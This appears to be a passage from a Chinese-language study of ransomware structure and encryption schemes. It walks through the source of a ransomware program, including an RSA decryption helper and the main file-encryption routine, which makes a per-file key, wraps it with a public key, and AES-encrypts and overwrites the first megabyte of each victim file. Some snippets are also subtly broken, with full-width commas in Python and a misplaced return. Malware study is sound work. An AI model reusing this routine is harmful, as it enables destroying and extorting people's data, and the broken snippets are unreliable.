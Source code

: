 ![base64长度计算](https://cdn.jsdelivr.net/gh/Mundi-Xu/picture_resource@master/picture/勒索软件结构与加密模式研究/base64.png)

### RsaDecryptSecret

使用给定的私钥解密密文：

```python
def rsaDecryptSecret(string, privateKey):
    # We firts import the private Key
    private_key = get_key(privateKey, None)
    # Decode the base64 encoded string
    base64DecodedSecret = base64.b64decode(string)
    # create the cipher object
    cipher_rsa = PKCS1_OAEP.new(private_key)
    # Decrypt the content
    decryptedBytestrings = cipher_rsa.decrypt(base64DecodedSecret)
    # Remember to convert the decoded cipher from bytes to string
    decryptedSecret = decryptedBytestrings.decode()
    return decryptedSecret
```

### SymEncryptFile

这是主要的加密函数。工作流程如下：

1. 使用publicKey和文件路径作为参数调用该函数
    ```python
    def symEncryptFile(publicKey，file):
    ```
2. 为指定文件生成一个随机密钥
    ```python
    key = generateKey()
    ```
3. 使用publicKey加密随机密钥
    ```python
    encriptedKey = rsaEncryptSecret(key，publicKey)
    ```
4. 定义文件的加密大小（n个字节）。
    ```python
    buffer_size = 1048576
    ```
5. 检查文件是否加密，如已加密，跳过
    ```python
    if file.endswith("." + cryptoName):
        print('File is already encrypted, skipping')
    return
    ```
6. 加密文件的前n个字节并覆盖其内容
    ```python
    # Open the input and output files
    input_file = open(file, 'r+b')
    print("Encrypting file: "+ file)
    output_file = open(file + '.' + cryptoName, 'w+b')
    # Create the cipher object and encrypt the data
    cipher_encrypt = AES.new(key, AES.MODE_CFB)
    # Encrypt file first
    input_file.seek(0)
    buffer = input_file.read(buffer_size)
    ciphered_bytes = cipher_encrypt.encrypt(buffer)
    input_file.seek(0)